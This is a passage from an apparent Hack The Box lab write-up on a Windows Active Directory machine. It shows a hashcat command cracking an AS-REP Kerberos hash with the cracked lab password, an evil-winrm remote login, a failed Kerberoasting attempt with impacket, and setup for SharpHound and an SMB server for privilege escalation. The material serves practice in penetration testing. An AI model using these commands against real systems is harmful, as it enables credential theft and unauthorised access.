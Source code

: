 ### Hashcat

```
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt --force

$krb5asrep$23$svc-alfresco@HTB.LOCAL:07e1003d1b05ce8f957d91f560fbf31a$30d4426acca99bd7b1d7083f0a222fb448f70ed15150561da58acba6350b06e5c4c3dbaa76338251e66e24006cf376bdbe8509a31bce88944a1a4cf9ee9da4fc5c89bffc8169307860e404f32e286221e821ff98fa830ee59ebf163b38d1ab3c85e7fcda52da5e3a2f0a05e3ba6eebe008add189992a85f983eb3b7ca0084b1aa211d3a6dde8e89072efbb60d54e4ea0574bebc640b7998ad84cd0f587e2b22573f4ce078434d19a876435ef1b6a3b6773ea4b7efc6f42943179aa11f33417cc08cef2a2d37a02e7f50e3fd55fdd95e78f25dede9af9c40041e3000278928cbf7608aa624358:s3rvice
```

Username: <mark style="color:yellow;">svc-alfresco</mark>

Password: <mark style="color:yellow;">s3rvice</mark>

### WinRM

```
evil-winrm -i 10.129.95.210 -u svc-alfresco
Password: s3rvice
```

Success!

## Privilege Escalation

Since I have valid credentials now, the first thing I did was attempt to Kerberoast svc-alfresco, however, it did not work.

#### Kerberoasting Attempt

```
impacket-GetUserSPNs -dc-ip 10.129.95.210 htb.local/svc-alfesco:s3rvice

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

No entries found!
```

### Local enumeration

* I attempted some basic manual enumeration with no prevail
* Let's load up SharpHound and load it into BloodHound and see what we can get
* Be sure to replace your version of SharpHound with the latest before doing this!!
* For ease-of-use, place it in the directory you are running your SMB server in

{% embed url="https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe" %}

SMB Server Setup

On Kali

```
impacket-smbserver smb .
```

